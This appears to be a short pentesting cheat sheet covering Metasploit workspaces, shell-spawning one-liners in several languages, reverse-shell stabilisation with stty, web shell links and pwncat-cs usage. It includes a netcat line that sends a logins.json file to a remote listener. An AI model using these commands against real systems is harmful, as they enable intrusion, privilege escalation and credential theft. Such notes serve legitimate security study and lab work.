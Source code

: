 - db_command ==> db_status, db_nmap etc

- workspace -a (add)
- workspace -d (delete)
- workspace name (move to name)

### Stabilizing - spawn shell
- Spawn shells
  
```
# Python
python3 -c 'import pty;pty.spawn("/bin/bash")' = better view
python3 -c "import pty;pty.spawn('/bin/bash')"
python -c 'import pty; pty.spawn("/bin/bash")'

# Perl
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";

# Ruby
ruby: exec "/bin/sh"

# Lua
lua: os.execute('/bin/sh')

# AWK
awk 'BEGIN {system("/bin/sh")}'

# Find
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
find . -exec /bin/sh \; -quit

# Vim
vim -c ':!/bin/sh'
```
   
-  export TERM=xterm = commands like clear
-  ctr + z = back to our shel
-  stty raw -echo; fg = back to reverse shell
-  stty size
  - stty raw -echo; fg
  - stty rows ## columns ##

### Webshells
- browser based
- [Laudanum shells](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
- [Nishang](https://github.com/samratashok/nishang)

## PWNCAT-CS
- nc with steroids
- python version => stabilized
- easier to transfer file
- python3 -m venv pwncat-env
- nc.exe -nv 10.9.1.255 1234 < logins.json
- source pwncat-env/bin/activate
- pwncat-cs -lp PORT
